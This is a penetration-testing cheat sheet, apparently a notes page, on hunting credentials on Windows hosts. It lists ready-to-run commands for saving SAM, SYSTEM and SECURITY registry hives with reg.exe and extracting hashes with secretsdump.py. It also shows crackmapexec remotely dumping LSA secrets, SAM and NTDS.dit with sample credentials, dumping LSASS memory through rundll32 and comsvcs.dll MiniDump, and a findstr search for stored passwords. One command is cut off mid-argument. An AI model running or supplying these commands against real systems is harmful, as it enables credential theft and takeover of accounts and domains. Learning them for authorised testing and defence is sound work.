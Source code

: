 # Cred Hunting

## Copying SAM Registry Hives

If we have local admin access on target, we could copy three registry SAM hives, which would help us to dump and crack hashes



| Registry Hive | Description                                                                         |
| ------------- | ----------------------------------------------------------------------------------- |
| HKLM\sam      | Hashes associated with local account passwords                                      |
| HKLM\system   | System bootkey, which is encryption/decryption key for SAM                          |
| HKLM\security | Cached credentials for domain accounts, it is not 100% needed, but would help a lot |

For dumping hives we would use reg.exe as admin

```powershell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
The operation completed successfully.
```

### Running secretsdump.py

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCA
```

## **Remote Dumping**

### **Dumping LSA Secrets Remotely**

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --lsa
```

### Dumping SAM Remotely&#x20;

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --sam
```

### Dumping  NTDS.dit Remotely

```bash
crackmapexec smb 13.13.13.13 -u amogus -p 1mp0st3r --ntds
```

## LSASS Dumping

**Rundll32.exe & Comsvcs.dll Method**

<mark style="color:red;">IMPORTANT: Anitivirus would see this as malicious activity.</mark> The point of method is that we use <mark style="color:blue;">**rundll32.exe**</mark> to call an exported function of <mark style="color:blue;">**comsvcs.dll**</mark> which also calls the **MiniDumpWriteDump** (**MiniDump**) function to dump the **LSASS** process memory to a specified directory (**C:\lsass.dmp**). But to do this we'll need a LSASS PID. with <mark style="color:blue;">**`tasklist /svc`**</mark> in **cmd** or <mark style="color:blue;">**`Get-Process lsass`**</mark> in **powershell**. With PID we could dump LSASS memory.

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 666 C:\lsass.dmp full
```

## Finding credentials with findstr

```powershell
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```
